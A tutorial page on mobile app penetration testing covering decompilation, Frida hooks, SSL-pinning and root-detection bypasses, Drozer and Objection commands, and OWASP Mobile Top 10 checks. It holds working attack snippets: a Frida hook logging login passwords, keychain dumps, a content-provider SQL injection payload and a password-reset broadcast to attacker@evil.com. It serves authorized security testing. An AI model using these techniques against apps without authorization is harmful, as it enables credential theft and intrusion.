

# Mobile Application Security

Mobile applications handle some of the most sensitive data in existence: banking credentials, health records, biometrics, location history, and private communications. Unlike web applications where the server controls everything, mobile apps ship a compiled binary to the user's device — giving attackers full access to the client-side code, storage, and communication channels.

Mobile security testing combines reverse engineering, network interception, runtime manipulation, and API testing. This page covers the methodology, tools, and techniques used to assess Android and iOS applications for security vulnerabilities.

**Related**: [Cybersecurity Overview](/cybersecurity/) | [Web App Pentesting](/cybersecurity/web-app-pentesting) | [API Security Testing](/cybersecurity/api-security-testing) | [Reverse Engineering](/cybersecurity/reverse-engineering)

::: danger Authorization Required
Only test mobile applications you own or have explicit written permission to test. Decompiling and analyzing third-party applications may violate terms of service. Use bug bounty programs or your own applications for practice.
:::

---

## Mobile Security Testing Methodology

```mermaid
graph TB
    subgraph "Static Analysis"
        S1["Decompile APK/IPA"]
        S2["Review source code"]
        S3["Check hardcoded secrets"]
        S4["Analyze permissions"]
        S5["Review manifest/plist"]
    end

    subgraph "Dynamic Analysis"
        D1["Intercept network traffic"]
        D2["Bypass certificate pinning"]
        D3["Runtime hooking (Frida)"]
        D4["Test local storage"]
        D5["Analyze IPC mechanisms"]
    end

    subgraph "Backend Testing"
        B1["API endpoint discovery"]
        B2["Authentication testing"]
        B3["Authorization testing"]
        B4["Input validation"]
    end

    S1 --> S2 --> S3
    S4 --> S5
    D1 --> D2 --> D3
    D4 --> D5
    B1 --> B2 --> B3 --> B4

    style S1 fill:#2563eb,color:#fff
    style D1 fill:#ca8a04,color:#fff
    style D3 fill:#dc2626,color:#fff
    style B1 fill:#16a34a,color:#fff
```



### Testing Environment Setup

| Component | Android | iOS |
|-----------|---------|-----|
| **Device** | Rooted physical device or emulator | Jailbroken iPhone or Corellium |
| **Proxy** | Burp Suite + certificate installed | Burp Suite + certificate installed |
| **Decompiler** | jadx, apktool, dex2jar | Hopper, Ghidra, class-dump |
| **Hooking** | Frida, Xposed | Frida, Objection |
| **Automated Scanner** | MobSF, QARK | MobSF, idb |
| **Network** | Wi-Fi ADB proxy or VPN | Wi-Fi proxy or VPN |

---

## Android Security Testing

### APK Decompilation

Android APKs are ZIP files containing Dalvik bytecode (DEX files), resources, and the manifest. Decompilation recovers near-original Java/Kotlin source code.

```bash
# Download APK from device
adb shell pm list packages | grep target_app
adb shell pm path com.target.app
adb pull /data/app/com.target.app-1/base.apk

# Decompile with jadx (recommended — produces readable Java)
jadx -d output_dir base.apk

# Decompile with apktool (preserves resources, smali format)
apktool d base.apk -o apktool_output

# Convert DEX to JAR for JD-GUI
d2j-dex2jar base.apk -o output.jar

# Key files to examine after decompilation:
# AndroidManifest.xml — permissions, exported components, debug flag
# res/values/strings.xml — hardcoded strings, API endpoints
# assets/ — embedded databases, configuration files
# lib/ — native libraries (.so files)
```

### Static Analysis Checklist

```bash
# Check for hardcoded secrets
grep -rn "API_KEY\|SECRET\|PASSWORD\|TOKEN\|api_key\|secret_key" output_dir/
grep -rn "https\?://[a-zA-Z0-9.-]*" output_dir/  # API endpoints
grep -rn "BEGIN RSA PRIVATE KEY\|BEGIN CERTIFICATE" output_dir/

# Check AndroidManifest.xml
# Look for:
# - android:debuggable="true" (should be false in production)
# - android:allowBackup="true" (data can be extracted via adb backup)
# - android:exported="true" on activities/services/receivers
# - Excessive permissions (CAMERA, CONTACTS, LOCATION without justification)
# - Custom permissions with incorrect protection levels

# Check for insecure network configuration
# res/xml/network_security_config.xml
# Look for: cleartextTrafficPermitted="true", custom trust anchors
```

| Finding | Risk | Example |
|---------|------|---------|
| `debuggable=true` | High | Attacker can attach debugger, step through code |
| `allowBackup=true` | Medium | App data extractable via `adb backup` |
| Hardcoded API keys | High | Keys for AWS, Firebase, Google Maps in source |
| Exported activities | Medium | Other apps can launch internal activities |
| HTTP traffic allowed | High | Credentials sent in cleartext |
| Weak crypto (MD5, SHA1 for passwords) | High | Hashes trivially crackable |

### Frida Hooking (Android)

Frida is a dynamic instrumentation toolkit that lets you inject JavaScript into running processes. It is the single most powerful tool for mobile security testing.

```bash
# Install Frida
pip install frida-tools

# Push Frida server to Android device
adb push frida-server-16.x.x-android-arm64 /data/local/tmp/frida-server
adb shell chmod 755 /data/local/tmp/frida-server
adb shell /data/local/tmp/frida-server &

# List running processes
frida-ps -U

# Attach to running app
frida -U com.target.app

# Spawn app with Frida
frida -U -f com.target.app --no-pause
```

```javascript
// Frida script — hook a method and log arguments
Java.perform(function() {
    // Hook the login method
    var LoginActivity = Java.use("com.target.app.LoginActivity");
    LoginActivity.login.implementation = function(username, password) {
        console.log("[*] Login called");
        console.log("[*] Username: " + username);
        console.log("[*] Password: " + password);

        // Call original method
        return this.login(username, password);
    };
});
```

```javascript
// Frida script — bypass root detection
Java.perform(function() {
    // Hook common root detection methods
    var RootDetection = Java.use("com.target.app.security.RootDetection");
    RootDetection.isRooted.implementation = function() {
        console.log("[*] isRooted() called — returning false");
        return false;
    };

    // Hook Runtime.exec to block 'su' and 'which su' checks
    var Runtime = Java.use("java.lang.Runtime");
    Runtime.exec.overload("java.lang.String").implementation = function(cmd) {
        if (cmd.indexOf("su") !== -1) {
            console.log("[*] Blocked root check command: " + cmd);
            throw Java.use("java.io.IOException")
                .$new("Cannot run program");
        }
        return this.exec(cmd);
    };

    // Hook File.exists to hide root binaries
    var File = Java.use("java.io.File");
    File.exists.implementation = function() {
        var path = this.getAbsolutePath();
        if (path === "/system/bin/su" ||
            path === "/system/xbin/su" ||
            path === "/sbin/su") {
            console.log("[*] Hidden root binary: " + path);
            return false;
        }
        return this.exists();
    };
});
```

```javascript
// Frida script — SSL pinning bypass (universal)
Java.perform(function() {
    // Bypass OkHttp3 CertificatePinner
    try {
        var CertificatePinner = Java.use(
            "okhttp3.CertificatePinner"
        );
        CertificatePinner.check.overload(
            "java.lang.String", "java.util.List"
        ).implementation = function(hostname, peerCertificates) {
            console.log("[*] OkHttp3 pin bypass for: " + hostname);
            return;  // Do nothing — bypass pin check
        };
    } catch(e) {
        console.log("[-] OkHttp3 not found");
    }

    // Bypass TrustManager
    var TrustManagerImpl = Java.use(
        "com.android.org.conscrypt.TrustManagerImpl"
    );
    TrustManagerImpl.verifyChain.implementation = function() {
        console.log("[*] TrustManager bypass");
        return arguments[0];  // Return the chain as-is
    };
});
```

### Drozer (Android Component Testing)

Drozer tests Android components: activities, services, broadcast receivers, and content providers.

```bash
# Install Drozer agent on device, start server
adb forward tcp:31415 tcp:31415
drozer console connect

# Enumerate attack surface
dz> run app.package.attacksurface com.target.app
# Output: 3 activities exported, 2 content providers exported

# List exported activities
dz> run app.activity.info -a com.target.app

# Launch an exported activity directly (bypass auth)
dz> run app.activity.start --component com.target.app com.target.app.AdminActivity

# Query exported content providers
dz> run app.provider.query content://com.target.app.provider/users

# SQL injection in content provider
dz> run app.provider.query content://com.target.app.provider/users --projection "* FROM sqlite_master WHERE type='table';--"

# Test broadcast receivers
dz> run app.broadcast.send --action com.target.app.RESET_PASSWORD --extra string email attacker@evil.com
```

---

## iOS Security Testing

### IPA Analysis

```bash
# Extract IPA from jailbroken device
# Use tools like frida-ios-dump or bfinject

# Unzip IPA (it is a ZIP file)
unzip app.ipa -d ipa_contents/

# Key files to examine:
# Payload/App.app/Info.plist — app configuration, URL schemes
# Payload/App.app/embedded.mobileprovision — provisioning profile
# Payload/App.app/App — the Mach-O binary

# Dump classes from binary
class-dump Payload/App.app/App > classes.h

# Analyze binary with otool
otool -L Payload/App.app/App  # List linked libraries
otool -ov Payload/App.app/App  # Objective-C segments

# Check for PIE and stack canaries
otool -hv Payload/App.app/App
# Look for: PIE flag, stack canary (__stack_chk_guard)
```

### Objection (iOS and Android)

Objection is a runtime exploration toolkit powered by Frida.

```bash
# Install Objection
pip install objection

# Patch APK to include Frida gadget (no root needed)
objection patchapk -s base.apk

# Connect to running app
objection -g com.target.app explore

# Common Objection commands
objection> ios sslpinning disable        # Bypass SSL pinning
objection> android sslpinning disable    # Bypass SSL pinning
objection> ios keychain dump              # Dump iOS Keychain
objection> android keystore list          # List Android Keystore entries
objection> ios nsuserdefaults get         # Read NSUserDefaults
objection> android hooking list classes   # List loaded classes
objection> android hooking list class_methods com.target.app.LoginActivity

# Watch a method (log calls and arguments)
objection> android hooking watch class_method com.target.app.LoginActivity.login --dump-args --dump-return

# Search for specific patterns in memory
objection> memory search "password" --string

# Explore local file system
objection> env                            # Show app directories
objection> ls /data/data/com.target.app/  # List app files
objection> sqlite connect /data/data/com.target.app/databases/app.db
```

### iOS-Specific Checks

| Check | How | Risk if Vulnerable |
|-------|-----|-------------------|
| **Keychain storage** | `objection> ios keychain dump` | Sensitive data in insecure keychain items |
| **Pasteboard leakage** | Copy sensitive data, check pasteboard | Credentials in clipboard |
| **URL scheme hijacking** | Check Info.plist for custom URL schemes | Deep link hijacking |
| **Snapshot leakage** | Background the app, check snapshot cache | Screenshots of sensitive screens |
| **Binary protections** | `otool -hv` — check PIE, ARC, stack canary | Exploit mitigations missing |
| **Data Protection class** | Check NSFileProtectionComplete usage | Files accessible when locked |

---

## Certificate Pinning Bypass

Certificate pinning ensures the app only trusts specific certificates, preventing man-in-the-middle attacks via proxy tools. Security testers need to bypass pinning to intercept traffic.

### Bypass Methods Comparison

| Method | Difficulty | Root/JB Required | Persistence |
|--------|-----------|-------------------|-------------|
| **Frida script** | Easy | Yes (or patched APK) | Runtime only |
| **Objection** | Easy | Yes (or patched APK) | Runtime only |
| **Patch APK (apktool)** | Medium | No | Permanent |
| **Magisk module (Android)** | Easy | Yes | Persistent |
| **SSL Kill Switch 2 (iOS)** | Easy | Yes (jailbreak) | Persistent |

```bash
# Method 1: Objection (easiest)
objection -g com.target.app explore
objection> android sslpinning disable

# Method 2: Frida with pre-built script
frida -U -f com.target.app -l ssl_bypass.js --no-pause

# Method 3: Patch APK network security config
# Add to res/xml/network_security_config.xml:
```

```xml
<!-- network_security_config.xml — trust user certificates -->
<network-security-config>
    <base-config cleartextTrafficPermitted="true">
        <trust-anchors>
            <certificates src="system" />
            <certificates src="user" />  <!-- Trust Burp certificate -->
        </trust-anchors>
    </base-config>
</network-security-config>
```

```bash
# Rebuild and sign the patched APK
apktool b apktool_output -o patched.apk
keytool -genkey -v -keystore test.keystore -alias test -keyalg RSA -keysize 2048 -validity 10000
jarsigner -verbose -sigalg SHA1withRSA -digestalg SHA1 -keystore test.keystore patched.apk test
zipalign -v 4 patched.apk patched-aligned.apk
adb install patched-aligned.apk
```

---

## OWASP Mobile Top 10

| # | Vulnerability | Description | Testing Approach |
|---|--------------|-------------|-----------------|
| **M1** | Improper Credential Usage | Hardcoded credentials, insecure storage | Static analysis, decompile, grep |
| **M2** | Inadequate Supply Chain Security | Vulnerable libraries, tampered SDKs | Dependency scanning, SCA |
| **M3** | Insecure Authentication/Authorization | Weak auth, bypassable client-side checks | Frida hooks, API testing |
| **M4** | Insufficient Input/Output Validation | Injection, XSS in WebViews | Fuzzing, manual testing |
| **M5** | Insecure Communication | Missing TLS, weak pinning, cleartext | Proxy interception, traffic analysis |
| **M6** | Inadequate Privacy Controls | Excessive data collection, PII leakage | Traffic analysis, storage review |
| **M7** | Insufficient Binary Protections | No obfuscation, debuggable, no integrity checks | Static analysis, tampering tests |
| **M8** | Security Misconfiguration | Debug mode, excessive permissions, backup | Manifest review, config analysis |
| **M9** | Insecure Data Storage | Plaintext in SharedPreferences, SQLite, logs | File system review, logcat |
| **M10** | Insufficient Cryptography | Weak algorithms, hardcoded keys, poor RNG | Static analysis, crypto review |

---

## Mobile API Security

Mobile apps communicate with backend APIs. Testing the API is often more fruitful than testing the app itself.



### Common Mobile API Vulnerabilities

```bash
# 1. Broken Object-Level Authorization (BOLA)
# Change user ID in requests to access other users' data
# Original: GET /api/v1/users/123/profile
# Attack:   GET /api/v1/users/124/profile

# 2. JWT token manipulation
# Decode JWT, check for weak signing algorithms
echo "eyJhbGciOiJIUzI1..." | base64 -d

# 3. API key extraction from decompiled source
grep -rn "x-api-key\|Authorization\|Bearer" decompiled_source/

# 4. Hardcoded endpoints for admin/debug APIs
grep -rn "/api/admin\|/api/debug\|/api/internal" decompiled_source/

# 5. Client-side validation only
# If the app enforces rules client-side, bypass with Burp
# Example: max transfer amount enforced in app but not API
```

::: warning Client-Side Security Is Not Security
Any check performed only on the mobile device can be bypassed. This includes:
- Input validation and business logic rules
- Root/jailbreak detection
- Certificate pinning
- Anti-tampering checks
- Obfuscation (it slows down, but never prevents, reverse engineering)

**Always validate server-side.** Client-side checks are defense-in-depth, not primary controls.
:::

---

## Local Data Storage Testing

| Storage | Android | iOS | Risk |
|---------|---------|-----|------|
| **Preferences** | SharedPreferences (XML) | NSUserDefaults (plist) | Plaintext on rooted/JB devices |
| **Database** | SQLite | SQLite / CoreData | Plaintext unless encrypted |
| **Files** | Internal/external storage | App sandbox | External storage world-readable |
| **Keychain/Keystore** | Android Keystore | iOS Keychain | Most secure, but check access controls |
| **Logs** | Logcat | Console/syslog | Never log sensitive data |
| **Clipboard** | ClipboardManager | UIPasteboard | Cross-app accessible |
| **WebView cache** | WebView cache dir | WKWebView cache | May contain tokens/credentials |

```bash
# Android — check SharedPreferences
adb shell cat /data/data/com.target.app/shared_prefs/*.xml

# Android — check SQLite databases
adb pull /data/data/com.target.app/databases/
sqlite3 app.db ".tables"
sqlite3 app.db "SELECT * FROM users;"

# Android — check logcat for sensitive data
adb logcat | grep -i "password\|token\|key\|secret"

# iOS — check NSUserDefaults
objection> ios nsuserdefaults get

# iOS — check Keychain
objection> ios keychain dump
```

---

## Automated Scanning with MobSF

Mobile Security Framework (MobSF) provides automated static and dynamic analysis.

```bash
# Run MobSF with Docker
docker run -it --rm -p 8000:8000 opensecurity/mobile-security-framework-mobsf

# Access web interface at http://localhost:8000
# Upload APK or IPA for analysis

# MobSF checks:
# - Hardcoded secrets and API keys
# - Insecure permissions
# - Debuggable flag
# - Network security configuration
# - Known vulnerable libraries
# - Code analysis for common patterns
# - Malware indicators
```

### Tool Summary

| Tool | Platform | Use Case | Type |
|------|----------|----------|------|
| **MobSF** | Android + iOS | Automated static/dynamic analysis | Scanner |
| **jadx** | Android | APK decompilation to Java | Decompiler |
| **apktool** | Android | APK decompilation to smali + resources | Decompiler |
| **Frida** | Android + iOS | Runtime hooking and instrumentation | Dynamic |
| **Objection** | Android + iOS | Runtime exploration (Frida-powered) | Dynamic |
| **Drozer** | Android | Component testing (activities, providers) | Dynamic |
| **Burp Suite** | Both | Network traffic interception | Proxy |
| **Ghidra** | Both | Native library (.so/.dylib) analysis | RE |
| **class-dump** | iOS | Objective-C class extraction | Static |

---

## Mobile Security Testing Checklist

| # | Check | Tools | Pass Criteria |
|---|-------|-------|--------------|
| 1 | No hardcoded secrets in source | jadx, grep | Zero API keys, passwords, or tokens in code |
| 2 | Certificate pinning implemented | Frida, Objection | Proxy rejected without bypass |
| 3 | Root/jailbreak detection | Frida | Detection present (defense-in-depth) |
| 4 | Sensitive data encrypted at rest | adb, Objection | No plaintext in SharedPrefs/SQLite/logs |
| 5 | No sensitive data in logs | logcat, Console | Zero PII/credentials in logs |
| 6 | Strong authentication | Burp Suite | Server-side validation, no client-only auth |
| 7 | Proper session management | Burp Suite | Token expiry, revocation, rotation |
| 8 | No exported components with sensitive data | Drozer | Components properly protected |
| 9 | WebView security | Static analysis | JavaScript disabled unless needed, no file access |
| 10 | Binary protections | otool, checksec | PIE, stack canary, obfuscation present |

---

## Further Reading

- [Web App Pentesting](/cybersecurity/web-app-pentesting) — Web vulnerabilities that apply to mobile backends
- [API Security Testing](/cybersecurity/api-security-testing) — Comprehensive API testing methodology
- [Reverse Engineering](/cybersecurity/reverse-engineering) — Native library analysis with Ghidra
- [Bug Bounty Hunting](/cybersecurity/bug-bounty) — Mobile bugs in bug bounty programs
- [Security Certifications](/cybersecurity/security-certifications) — eMAPT, GMOB certifications
